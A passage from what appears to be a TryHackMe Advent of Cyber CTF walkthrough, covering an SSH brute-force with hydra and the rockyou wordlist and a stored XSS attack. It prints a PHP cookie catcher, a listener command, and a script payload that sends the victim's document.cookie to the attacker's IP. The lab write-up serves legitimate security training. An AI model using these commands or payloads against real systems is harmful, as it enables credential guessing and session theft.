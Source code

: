 ### Brute-force the SSH

Use the following command to brute-force the SSH service.

```
hydra -t 64 -l molly -P /usr/share/wordlists/rockyou.txt ssh://<machine IP>
```

![ssh hydra](/assets/images/THM/2020-08-15-advent-of-cyber/day17/4.png)

Login into the server and capture the flag.

![flag 17](/assets/images/THM/2020-08-15-advent-of-cyber/day17/5.png)

<span id="18"></span>

## Day 18 (Task 23): Stealing the cookie and XSS

There is a lot of ways of solving this task. As for my approach, I'm going to create a PHP script and steal the admin cookie. For the sake of simplicity, the script only contains one single line and extremely unrealistic.

```PHP
<?php
        $cookie = $_GET["c"];
?>
```

After that, launch the PHP server (run the command inside the directory contains the PHP script) to listen to any incoming request.

```
php -S <tun IP>:8000
```

make sure you change the tun IP according to your own [VPN IP in THM](https://tryhackme.com/access). After that , register yourself in the webserver and inject the following script in the comment section.

```
<script>document.location='http://<tun IP>:8000/cookie.php?c='+document.cookie;</script>
```

Change the tunnel IP too.
